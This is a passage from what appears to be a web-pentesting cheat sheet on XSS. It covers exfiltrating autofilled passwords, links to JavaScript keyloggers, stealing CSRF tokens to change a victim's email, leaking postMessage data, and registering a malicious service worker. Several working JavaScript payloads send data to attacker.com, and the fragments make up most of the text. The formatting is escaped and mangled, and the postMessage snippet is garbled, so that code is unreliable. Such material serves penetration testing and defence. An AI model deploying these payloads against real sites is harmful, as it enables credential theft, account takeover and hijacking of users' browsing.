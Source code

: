   \`\`\` When any data is introduced in the password field, the username and password is sent to the attackers server, even if the client selects a saved password and don't write anything the credentials will be ex-filtrated. \#\#\# Keylogger Just searching in github I found a few different ones: \* \[https://github.com/JohnHoder/Javascript-Keylogger\]\(https://github.com/JohnHoder/Javascript-Keylogger\) \* \[https://github.com/rajeshmajumdar/keylogger\]\(https://github.com/rajeshmajumdar/keylogger\) \* \[https://github.com/hakanonymos/JavascriptKeylogger\]\(https://github.com/hakanonymos/JavascriptKeylogger\) \* You can also use metasploit \`http\_javascript\_keylogger\` \#\#\# XSS - Stealing CSRF tokens \`\`\`javascript  
var req = new XMLHttpRequest\(\);  
req.onload = handleResponse;  
req.open\('get','/email',true\);  
req.send\(\);  
function handleResponse\(\) {  
    var token = this.responseText.match\(/name="csrf" value="\(\w+\)"/\)\[1\];  
    var changeReq = new XMLHttpRequest\(\);  
    changeReq.open\('post', '/email/change-email', true\);  
    changeReq.send\('csrf='+token+'&email=test@test.com'\)  
};  
 \`\`\` \#\#\# XSS - Stealing PostMessage messages \`\`\`markup** ![](https://attacker.com/?)  
 **window.onmessage = function\(e\){  
 document.getElementById\("message"\).src += "&"+e.data;  
 \`\`\` \#\#\# XSS - Abusing Service Workers A service worker is a \*\*script\*\* that your browser \*\*runs\*\* in the \*\*background\*\*, separate from a web page, opening the door to features that don't need a web page or user interaction. \\(\[More info about what is a service worker here\]\(https://developers.google.com/web/fundamentals/primers/service-workers\)\\). The goal of this attack is to \*\*create service workers\*\* on the \*\*victim session\*\* inside the \*\*vulnerable\*\* web \*\*domain\*\* that grant the \*\*attacker control\*\* over \*\*all the pages\*\* the \*\*victim\*\* will load in \*\*that domain\*\*. In order to exploit this vulnerability you need to find: \* A way to \*\*upload arbitrary JS\*\* files to the server and a \*\*XSS to load the service worker\*\* of the uploaded JS file \* A \*\*vulnerable JSONP request\*\* where you can \*\*manipulate the output \\(with arbitrary JS code\\)\*\* and a \*\*XSS\*\* to \*\*load the JSONP with a payload\*\* that will \*\*load a malicious service worker\*\*. In the following example I'm going to present a code to \*\*register a new service worke\*\*r that will listen to the \`fetch\` event and will \*\*send to the attackers server each fetched URL\*\* \\(this is the code you would need to \*\*upload\*\* to the \*\*server\*\* or load via a \*\*vulnerable JSONP\*\* response\\): \`\`\`javascript self.addEventListener\('fetch', function\(e\) { e.respondWith\(caches.match\(e.request\).then\(function\(response\) { fetch\('https://attacker.com/fetch\_url/' + e.request.url\) }\); \`\`\` And this is the code that will \*\*register the worker\*\* \\(the code you should be able to execute abusing a \*\*XSS\*\*\\). In this case a \*\*GET\*\* request will be sent to the \*\*attackers\*\* server \*\*notifying\*\* if the \*\*registration\*\* of the service worker was successful or not: \`\`\`javascript  
window.addEventListener\('load', function\(\) {  
var sw = "/uploaded/ws\_js.js";  
navigator.serviceWorker.register\(sw, {scope: '/'}\)  
  .then\(function\(registration\) {  
    var xhttp2 = new XMLHttpRequest\(\);  
    xhttp2.open\("GET", "https://attacker.com/SW/success", true\);  
    xhttp2.send\(\);  
  }, function \(err\) {  
    var xhttp2 = new XMLHttpRequest\(\);  
    xhttp2.open\("GET", "https://attacker.com/SW/error", true\);  
    xhttp2.send\(\);  
  }\);  
}\);  